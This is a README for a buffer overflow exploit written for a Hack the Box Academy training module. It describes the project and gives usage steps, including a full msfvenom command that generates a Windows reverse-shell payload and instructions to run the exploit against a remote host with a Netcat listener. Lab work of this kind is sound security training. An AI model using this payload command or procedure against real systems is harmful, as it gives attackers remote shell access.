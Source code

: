 #General Information
This exploit was written for the skills assessment portion of Hack the Box
Academy's Stack-based Buffer Overflows for Windows x86 module. The goal of 
the module was to make the reader proficient at exploiting stack-based 
buffer overflow vulnerabilities in x86 Windows applications.The skills 
assessment required you to download a program file, develop an exploit for
the application, and exploit an image of that application running on a 
remote server. Keeping that premise in mind, this exploit meets those goals
by building a reverse shell payload tailored for the application, and 
delivering that payload via a TCP connection established by a socket. 
I will not disclose the specific methodologies used to develop this 
exploit as I believe it would rob the reader of the learning opportunity 
provided by the module.

#Usage Instructions
**IMPORTANT:** The payload used inside this exploit, being a reverse shell,
requires a listening host, and a listening port. That being said, you will
**NOT** be able to utilize this exploit, as it is, to get a reverse shell 
on your own system. A user will have to replace the "buf" variable with 
a payload generated specifying their ip address (i.e. as it appears after 
running `ifconfig {interface}`), and an associated port number. The payload
in this exploit was generated using a command similar to this:
`msfvenom -p 'windows/shell_reverse_tcp' LHOST='{listening-ipaddr}' LPORT='{listening-port}' -f python -b '\x00\x0A\x0D'`

To utilize the exploit:
- Clone the repository locally
- Navigate inside the project folder
- Generate your custom payload using msfvenom or other similar tools 
- Replace the "buf" variable with your own payload
- Save the file
- Give the exploit.py file executable permissions
- Setup a Netcat Listener
- Execute the following shell command `./exploit.py '{ipaddr-of-remote-server}'`
